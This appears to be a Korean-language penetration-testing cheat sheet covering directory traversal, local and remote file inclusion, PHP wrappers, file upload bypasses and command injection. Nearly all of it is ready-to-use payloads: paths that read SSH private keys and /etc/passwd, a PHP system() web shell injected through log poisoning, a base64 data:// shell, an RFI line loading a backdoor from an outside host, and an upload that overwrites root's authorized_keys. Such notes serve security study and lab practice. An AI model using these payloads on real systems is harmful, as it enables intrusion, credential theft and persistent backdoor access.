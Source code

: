 # phpinfo.php
- 파일에서 경로 및 사용 가능 코드 확인
- 확장 모듈 확인
---
# 🗂 Directory Traversal (Path Traversal)

`https://example.com/cms/login.php?language=en.html`  
→ `language` 파라미터로 특정 파일을 불러오는 정상 요청

`https://example.com/cms/login.php?language=../../../../home/kali/.ssh/id_rsa`  
→ 리눅스 사용자 SSH 개인키 접근

`https://example.com/cms/login.php?language=..\..\..\..\windows\win.ini`  
→ Windows 시스템 설정 파일(win.ini) 접근

---

## 🔑 인코딩이 필요할 때

`../../../../etc/passwd`  
→ 리눅스 사용자 계정 정보

`%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd`  
→ `.`을 `%2e`로 인코딩하여 필터 우회

`%252e%252e/%252e%252e/etc/passwd`  
→ 이중 인코딩(Double Encoding)으로 필터 우회

---

# 📄 Local File Inclusion (LFI) - Log Poisoning
```bash
curl http://example.com/index.php?page=../../../../../../../../../var/www/html/index.php
```
- 내부 파일을 읽을 수 있을 때 확인해보기.(패스워드가 노출될 수도 있음.)

```bash
curl https://example.com/index.php?page=../../../../../../../../../var/log/apache2/access.log
```
→ Apache `access.log`를 LFI로 불러오기

```text
User-Agent: <p><?php system($_REQUEST['cmd']); ?></p>
```
→ User-Agent에 PHP 코드 삽입(Log Poisoning)

```bash
../var/log/apache2/access.log&cmd=whoami
```
→ 삽입된 PHP 코드로 명령 실행

---

# 🐘 PHP Wrappers

```bash
curl https://example.com/index.php?page=php://filter/convert.base64-encode/resource=admin.php
```
→ `php://filter`로 파일을 Base64로 인코딩하여 소스코드 노출

```bash
curl "https://example.com/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"
```
→ `data://` 래퍼로 Base64 인코딩된 PHP 코드 전달 후 `ls` 실행

---

# 🌐 Remote File Inclusion (RFI)

```bash
curl "https://example.com/index.php?page=http://192.168.119.3/simple-backdoor.php&cmd=ls"
```
→ 외부 서버의 악성 PHP 파일 로드 후 명령 실행

---

# 📤 File Upload Vulnerabilities

`example.php`  
→ 정상 PHP 파일

`example.pHP`  
→ 대소문자 변형으로 확장자 필터 우회

`example.php.txt`  
→ 이중 확장자로 필터 우회

`upload '../../../../../../../test.txt'`  
→ 업로드 경로를 벗어나 상위 디렉토리에 파일 저장

`upload '../../../../../root/.ssh/authorized_keys'`  
→ SSH 공개키 덮어써서 백도어 접속 가능

<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/243fbacc-c0c6-4c3c-a8b8-1ca3b665a05e" />


---

# 💻 Command Injection

`;ifconfig`  
→ 세미콜론(;)으로 기존 명령 종료 후 `ifconfig` 실행

`%3Bifconfig`  
→ 세미콜론(;)을 URL 인코딩한 버전

```bash
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```
→ PowerShell 환경 여부 및 실행 위치 확인

---

## 📦 POST 데이터에 명령어 삽입하여 필터 우회 후 실행

```bash
curl -X POST --data 'Archive=git%3B(dir%202%3E%261%20*%60%7Cecho%20CMD)%3B%26%3C%23%20rem%20%23%3Eecho%20PowerShell' http://192.168.50.189:8000/archive
```
